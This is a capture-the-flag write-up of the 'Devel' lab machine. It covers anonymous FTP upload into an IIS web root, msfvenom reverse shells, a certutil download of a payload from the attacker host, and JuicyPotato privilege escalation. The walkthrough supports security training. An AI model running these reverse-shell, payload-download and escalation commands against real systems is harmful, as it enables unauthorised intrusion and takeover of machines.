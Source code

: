 # Devel (Easy/TJ Null)  

## Nmap  

Port 0-15000.  

```
21/tcp open  ftp     syn-ack Microsoft ftpd
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
```  

Http server.  

`Microsoft-IIS/7.5`  

FTP system OS.  

`Windows_NT`

## FTP  

Anonymous login allowed. Directory looks like web root. To prove this, a text file will be uploaded and accessed from the browser.  

`put test.txt`  

As this was a success, the next logical step is to attempt to load a shell.  

## Shell  

Using the following command to create a .asp reverse shell.  

`msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.85 LPORT=4444 -f asp > shell.asp`  

This did not work and returned an internal server error 500.  

Using a .aspx webshell from the following source.  

`https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.aspx`  

It is now possible to execute commands on the system.  

## Shell 2  

Creating an reverse shell executable.  

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.85 LPORT=4444 -f exe > shell.exe`  

Starting a python http server and getting shell file from attack machine.  

`certutil -urlcache -f http://10.10.14.85:8000/shell.exe c:\Windows\Temp\shell.exe`  

This successfully returns a shell to the listener on 4444.  

## Priv Esc  

The current user has the following priv with 'whoami /priv'.  

`SeImpersonatePrivilege    Enabled`  

After downloading JuicyPotato.exe, it didn't work due to it not being x86. Getting a 32 bit from the following.  

`https://github.com/ivanitlearning/Juicy-Potato-x86/releases/download/1.2/Juicy.Potato.x86.exe`  

As this is a windows 7 enterprise, I download the CLSID list.  

`https://raw.githubusercontent.com/ohpe/juicy-potato/master/CLSID/Windows_7_Enterprise/CLSID.list`  

Creating a reverse shell to be used as root.  

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.85 LPORT=5555 -f exe > rootshell.exe`  

Creating a .bat file with the following command.  

`for CLSID in $(cat CLSID.list);do echo "c:\Windows\Temp\JuicyPotato.exe -l 1337 -t * -p c:\Windows\Temp\rootshell.exe -c $CLSID" >> commands.bat;done`  

Adding the following to the first line of the commands.bat file.  

`@echo off`  

Transfer JuicyPotato.exe, rootshell.exe and commands.bat, then run the batch file.  

`.\commands.bat`  

After each line is run, eventually a root shell is returned to our listener on 5555.
